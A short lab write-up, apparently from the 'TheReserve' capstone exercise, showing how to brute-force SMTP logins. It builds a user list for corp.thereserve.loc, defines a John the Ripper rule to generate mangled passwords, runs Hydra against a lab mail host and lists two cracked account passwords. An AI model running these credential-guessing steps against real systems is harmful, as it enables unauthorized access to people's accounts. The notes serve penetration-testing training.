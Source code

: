 
### Create a file with the names (users.txt)
**Note: Return at the end of each line.****
antony.ross	 
ashley.chan	
brenda.henderson	 
charlene.thomas 
christopher.smith 
emily.harvey 
keith.allen	 
laura.wood
leslie.morley	 
lynda.gordon	 
martin.savage	 
mohammad.ahmed	 
paula.bailey	 
rhys.parsons	 
roy.sims 

### Domain
Add domain to end of every name.

```
sed -i 's/$/@corp.thereserve.loc/' users.txt
```

![[Brute force SMTP-20240518134435690.webp]]
### Custom rules
- Add the following to the bottom of john.conf

```
	#Custom Rules

	[List.Rules:Capstone]

	Az"[0-9]" $[!@#%^]
```

- Run the following command to create a mangled passwords file.
```
john --wordlist=password_base_list.txt --rules=Capstone --stdout > mangled-passwords.txt

```

### HYDRA
Getting some email's credentials.

```
hydra -L users.txt -P mangled-passwords.txt smtp://10.200.X.11 -V -o smtp-results.txt

cat smtp-results.txt
```

![[Brute force SMTP-20240518135026786.webp]]

login: laura.wood@corp.thereserve.loc   
password: Password1@

login: mohammad.ahmed@corp.thereserve.loc   
password: Password1!
